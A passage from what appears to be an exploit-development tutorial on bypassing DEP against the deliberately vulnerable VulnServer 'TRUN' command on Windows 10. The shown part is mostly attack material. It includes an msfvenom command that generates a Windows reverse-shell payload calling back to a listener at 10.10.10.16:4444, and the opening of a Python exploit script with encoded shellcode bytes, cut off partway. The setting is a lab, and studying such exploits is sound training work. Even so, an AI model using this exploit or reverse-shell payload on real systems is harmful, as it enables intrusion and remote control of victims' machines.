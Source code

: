 ![screenshot](/assets/images/vulnserverdep/dep_bypassed.PNG)

Wow! We did it! We bypassed DEP on Windows 10! All we need to do now is add a NOP sled for some safety, change our interrupts back to C's, implement some shellcode, and adjust for the new payload lengths. We'll skip the badchar enumeration and assume "\x00" is the only bad character (although, we should have done this much earlier in the process!).

```bash
root@kali:~/vulnserver/TRUN/DEP# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.16 LPORT=4444 -b '\x00' -e x86/shikata_ga_nai -f python -o shellcode.txt
sed -ie "s/buf/shellcode/g" shellcode.txt
```

Add the shellcode and NOP sled to our exploit:

```python
#!/usr/bin/env python
"""
Description: VulnServer "TRUN" Buffer Overflow w/ DEP Bypass (limited use-case)
Author: Cody Winkler
Contact: @c2thewinkler (twitter)
Date: 12/18/2019
Tested On: Windows 10 x64 (wow64)

[+] Usage: python expoit.py <IP> <PORT>

$ python exploit.py 127.0.0.1 9999
"""

import socket
import struct
import sys

host = sys.argv[1]
port = int(sys.argv[2])

shellcode =  b""
shellcode += b"\xba\x80\x08\x48\x4a\xd9\xc6\xd9\x74\x24\xf4\x5d\x33"
shellcode += b"\xc9\xb1\x52\x31\x55\x12\x83\xc5\x04\x03\xd5\x06\xaa"
shellcode += b"\xbf\x29\xfe\xa8\x40\xd1\xff\xcc\xc9\x34\xce\xcc\xae"
shellcode += b"\x3d\x61\xfd\xa5\x13\x8e\x76\xeb\x87\x05\xfa\x24\xa8"
```